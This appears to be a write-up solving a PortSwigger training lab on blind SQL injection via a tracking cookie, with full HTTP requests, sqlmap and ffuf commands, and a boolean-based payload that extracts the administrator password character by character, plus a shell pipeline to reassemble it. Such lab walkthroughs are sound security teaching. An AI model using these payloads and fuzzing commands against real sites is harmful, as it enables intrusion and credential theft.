






# Blind SQL injection with conditional responses

```
❓

This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a `Welcome back` message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.
```

Following a similar process to  where I tested the category value for SQLi using intruder, I come to find that the category value in the request URL is not susceptible to SQLi. (We can also use sqlmap to further verify this)



Although SQLi doesn’t work in the request URL, you still try it in other parts of the request such as the cookie, or referer. After testing the cookie for SQLi using the same Intruder process and applying a Grep-Match for the word “*Welcome*”. At this point we can see some payloads cause the “*Welcome back!*” to disappear hinting that the cookie is potentially susceptible to SQLi.

```bash
GET /filter?category=Pets HTTP/2
Host: 0a300070045e9b9c80a75390003800e2.web-security-academy.net
Cookie: TrackingId=6Oe285vR5LdP9VF2§test§; session=tSsxEjEfjhS0LDQI7tF2Hmp5gfVI0jjv
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a300070045e9b9c80a75390003800e2.web-security-academy.net/filter?category=Toys+%26+Games
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```





At this point we can now use sqlmap to further test if the cookie is vulnerable to SQLi using this command

```bash
sqlmap -r req.txt --level 2 --dbs
```



We can also try increasing the risk as well to see if we get any different results using this command (This will also fail)

```bash
sqlmap -r req.txt --level 2 --risk 3 --dbs --batch
```

Rereading the lab description, *“The database contains a different table called **`users`**, with columns called **`username`** and **`password`**. You need to exploit the blind SQL injection vulnerability to find out the password of the **`administrator`** user.”*

```bash
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username = 'administrator')='a--
```

```bash
# Testing to make sure the payload works. Which should still return "Welcome back!"
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username = 'administrator')>'a--
```

We can use the first payload and send it to Intruder to brute-force the password for the administrator. This payload is a **Boolean-based blind SQL injection** to extract the first character of the password for the user `administrator`. Here's a breakdown of the query:

### Query:

```sql
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username = 'administrator')='a--

```

---

### Key Components:

1. **`'`**:
   - This closes the current value in the query. For example, if the application is constructing a SQL query like:  When this query is injected, it breaks the original query structure and appends new logic.
     ```sql
     SELECT * FROM users WHERE username = 'input_here';

     ```

---

1. **`AND`**:
   - This adds a condition to the original query. After the closing single quote (`'`), the attacker introduces their own condition.

---

1. **`SELECT SUBSTRING(password, 1, 1) FROM users WHERE username = 'administrator'`**:
   - **`SUBSTRING(password, 1, 1)`**:
     - Retrieves the first character of the `password` column.
     - The `1, 1` means "start at the first character and return 1 character."
   - **`FROM users WHERE username = 'administrator'`**:
     - Targets the `password` of the user whose `username` is `administrator`.

---

1. **`='a`**:
   - Compares the extracted first character of the `password` with `'a'`.
   - If the first character of the `password` is indeed `'a'`, this condition evaluates to `TRUE`.

---

1. **`-`**:
   - This is a SQL comment syntax that tells the database to ignore the rest of the query. For example:  The `-` comments out the `AND password = 'something'` part, ensuring the attacker's injected query runs without errors.
     ```sql
     SELECT * FROM users WHERE username = 'input_here' -- AND password = 'something';

     ```

---

### Full Query Context:

Assume the original query from the web application is:

```sql
SELECT * FROM users WHERE username = 'input_here';

```

After injecting:

```sql
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username = 'administrator')='a--

```

The resulting query becomes:

```sql
SELECT * FROM users WHERE username = '' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username = 'administrator')='a'--';

```

---

### What This Query Does:

1. The database checks if:
   ```sql
   (SELECT SUBSTRING(password,1,1) FROM users WHERE username = 'administrator') = 'a'

   ```

   
   is `TRUE` or `FALSE`.
   
2. If `TRUE` (i.e., the first character of the `administrator`'s password is `'a'`), the query succeeds, and the attacker gets a positive response (e.g., success, valid page load).
3. If `FALSE` (i.e., the first character is not `'a'`), the query fails, and the attacker gets a negative response (e.g., an error or different page).

---

### How It’s Used:

1. The attacker repeatedly injects similar queries to extract the password character by character.
2. For example:
   - `' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username = 'administrator')='b--`
   - `' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username = 'administrator')='c--`
   - Continue this until the entire password is retrieved.

---

Now that I’ve explained the payload, let’s get the admin password! First I grab the request containing our cookie SQLi payload

```bash
GET /filter?category=Pets HTTP/2
Host: 0a300070045e9b9c80a75390003800e2.web-security-academy.net
Cookie: TrackingId=6Oe285vR5LdP9VF2' AND (SELECT SUBSTRING(password,FUZZNUM,1) FROM users WHERE username = 'administrator')='FUZZCHAR; session=tSsxEjEfjhS0LDQI7tF2Hmp5gfVI0jjv
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a300070045e9b9c80a75390003800e2.web-security-academy.net/filter?category=Pets%27+or+1=1--
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

I proceed with using ffuf to fuzz the password character and number using this command:

```shell
ffuf -request req.txt -w <(seq 1 30):FUZZNUM -w <(python3 -c "import string; print('\n'.join(string.ascii_letters + string.digits))"):FUZZCHAR -mr "Welcome" -v > out.txt

```

---

### Components:

1. **`ffuf`**:
   - The command-line tool being used for fuzzing HTTP requests.
2. **`request req.txt`**:
   - Specifies the template HTTP request file (`req.txt`).
   - This file should contain placeholders like `FUZZNUM` and `FUZZCHAR` where the wordlists will be substituted (As seen in the request above).
3. **`w <(seq 1 30):FUZZNUM`**:
   - Defines a wordlist for the `FUZZNUM` placeholder.
   - `<(seq 1 30)` generates numbers from 1 to 30 (adjust accordingly) dynamically using a process substitution. These values replace `FUZZNUM` in the `req.txt` request during execution.
4. **`w <(python3 -c "import string; print('\n'.join(string.ascii_letters + string.digits))"):FUZZCHAR`**:
   - Defines a wordlist for the `FUZZCHAR` placeholder.
   - This uses a Python one-liner to dynamically generate a list of alphanumeric characters (`a-zA-Z0-9`), each on a new line, which will replace `FUZZCHAR` in `req.txt`.
5. **`mr "Welcome"`**:
   - Matches responses that contain the string `"Welcome"`.
   - Only responses with this keyword in their content will be considered valid matches.
6. **`v`**:
   - Enables verbose mode.
   - Outputs additional information, such as HTTP status codes, response sizes, and other details for debugging.
7. **`> out.txt`**:
   - Redirects the entire output of the command to a file named `out.txt`.
   - Ensures you capture all results for further analysis without cluttering the terminal.

---

Our characters will be out of order because ffuf uses multithreading so the responses come in once they are completed.



Next up we can sort the output using the following command:

```bash
grep -E "FUZZCHAR|FUZZNUM" out.txt | awk '/FUZZCHAR/ {char=$NF} /FUZZNUM/ {print $NF, char}' | sort -n
```

---

### Components:

1. **`grep -E "FUZZCHAR|FUZZNUM" out.txt`**:
   - **Purpose**: Searches for lines in the file `out.txt` that contain either `FUZZCHAR` or `FUZZNUM`.
   - **`E`**: Enables extended regular expressions to match multiple patterns (in this case, `"FUZZCHAR"` or `"FUZZNUM"`).
   - **Input**: `out.txt`, the output file from a previous `ffuf` command.
   - **Output**: Lines containing either `FUZZCHAR` or `FUZZNUM`.

   
   **Example Output**:
   

   ```txt
   * FUZZCHAR: a
   * FUZZNUM: 1
   * FUZZCHAR: b
   * FUZZNUM: 2

   ```

---

1. **`| awk '/FUZZCHAR/ {char=$NF} /FUZZNUM/ {print $NF, char}'`**:
   - Processes the lines output by `grep` to extract and pair `FUZZNUM` with its corresponding `FUZZCHAR`.

   
   **Key Components**:
   

   - **`/FUZZCHAR/`**:
     - Matches lines containing `FUZZCHAR`.
     - **Action**: Stores the last field (`$NF`) from the line (e.g., `a`, `b`, etc.) into a variable `char`.
   - **`/FUZZNUM/`**:
     - Matches lines containing `FUZZNUM`.
     - **Action**: Prints the last field (`$NF`) from the `FUZZNUM` line, followed by the value stored in `char`.

   
   **Example Input to ****`awk`**:
   

   ```txt
   * FUZZCHAR: a
   * FUZZNUM: 1
   * FUZZCHAR: b
   * FUZZNUM: 2

   ```

   
   **Example Output**:
   

   ```txt
   1 a
   2 b

   ```

---

1. **`| sort -n`**:
   - **Purpose**: Sorts the output numerically based on the first column (`FUZZNUM`).
   - **`n`**: Ensures numerical sorting (e.g., `1`, `2`, `10`, instead of `1`, `10`, `2`).

   
   **Example Input to ****`sort`**:
   

   ```txt
   2 b
   1 a
   10 c

   ```

   
   **Example Output**:
   

   ```txt
   1 a
   2 b
   10 c

   ```

---

### Overall Command Workflow:

1. **`grep`**:
   - Extracts lines with `FUZZCHAR` or `FUZZNUM`.
2. **`awk`**:
   - Pairs each `FUZZNUM` with its corresponding `FUZZCHAR`.
3. **`sort`**:
   - Sorts the `FUZZNUM` values numerically, ensuring they are in ascending order. 

---

After running that command we now have the administrator password characters in order!


